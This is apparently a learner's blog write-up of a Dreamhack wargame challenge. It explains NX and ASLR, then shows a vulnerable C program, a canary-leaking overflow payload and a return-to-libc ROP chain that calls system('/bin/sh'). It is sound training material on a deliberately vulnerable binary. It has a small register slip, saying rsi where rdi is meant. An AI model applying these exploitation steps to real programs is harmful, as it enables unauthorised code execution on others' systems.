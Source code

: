 ```yaml
---
title : "Return To Library"
date: 2024-06-30 10:00:00 +0900
published: true
---
```


# Stack Protection: NX and ASLR
Traditional system exploitation often relied on stack overflow attacks. To mitigate this, architects introduced stack canary, which protects the return address on the stack from being written.

However, attackers later found ways to bypass the canary by injecting a shellcode to the stack and changing the return address to point to that shellcode.

To defend against these attacks, NX and ASLR were introduced:
- **NX(No-eXecute)**: Prevents execution of code on the stack.**
- **ASLR(Address Space Layout Randomization)**: Randomizes memory address at runtime, making it harder for attackers to predict the location of critical code or data.

# NX
What happens when the stack is non-executable?
In traditional stack overflow exploits, we would inject shellcode into the stack.
But with NX enabled, we can no longer execute shellcode stored there.
Instead of executing shellcode, we can redirect execution to existing functions like `system("/bin/sh")`. To perform this, we need:

- The address of `system@plt` function in PLT
- A pointer to the string of `/bin/sh`
- A **proper ROP gadget** to setup arguments
- (optional) a `ret` gadget for stack alignment
## Gadget?
Gadget is a short sequence of assembly instructions ending in a `ret` instruction, used to build a Return-Oriented Programming chain. We can find gadget using `ROPgadget --binary ./<target_binary> --re "<instruction>"` command in shell.

## Example: Return to Library

[Dreamhack](https://dreamhack.io/wargame/challenges/353)
```bash
pwndbg> checksec
File:     /home/yeon/dreamhack/rtl/rtl
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Since `./rtl.c` is compiled with NX enabled, we cannot inject and execute shellcode from the stack.

Given c code is as follows:
```c
  7 const char* binsh = "/bin/sh";
  8
  9 int main() {
 10   char buf[0x30];
 11
 12   setvbuf(stdin, 0, _IONBF, 0);
 13   setvbuf(stdout, 0, _IONBF, 0);
 14
 15   // Add system function to plt's entry
 16   system("echo 'system@plt'");
 17
 18   // Leak canary
 19   printf("[1] Leak Canary\n");
 20   printf("Buf: ");
 21   read(0, buf, 0x100);
 22   printf("Buf: %s\n", buf);
 23
 24   // Overwrite return address
 25   printf("[2] Overwrite return address\n");
 26   printf("Buf: ");
 27   read(0, buf, 0x100);
 28
 29   return 0;
 30 }
```

We observe the following:
- `system("echo 'system@plt'")` adds `system@plt` to PLT
- `buf` has vulnerability of stack overflow
- The first `read` leaks the canary
- The second read allows us to overwrite the return address

By inspecting the assembly code of `main` function, we could figure out the structure of stack:
![](https://i.imgur.com/a4qyRmo.png)
> **Question**: Why `?` area is needed?
> It may be related with requirement of stack alignment of `movaps`...

### 1st read: Leak Canary

```python
payload1 =
	b"A" * 0x30 + b"A" * 0x8 + b"\n"
```

We can overwrite the null byte at the beginning of the canary to leak the rest via `printf`. So we send total 0x39 bytes.

### 2nd read: RET Overwrite
We will use a chain of ROP to call system function.
- The first `RET` region indicates `pop rdi; ret` gadget
- `RET+0x8` region indicates `/bin/sh` so that it can be stored in $rsi
- `RET+0x10` region indicates `ret` gadget **to make 16-byte alignment**
- `RET+0x18` region indicates `system@plt`
![](https://i.imgur.com/ulb6CKY.png)
We can write payload as follows:

```python
payload2 =
	b"A" * 0x38 +
	cnry +
	b"B" * 0x8 +
	p64(gadget1_addr) + # pop rdi; ret
	p64(binsh) + # /bin/sh to rdi
	p64(gadget2_addr) + # ret
	p64(system_plt) # system@plt
```




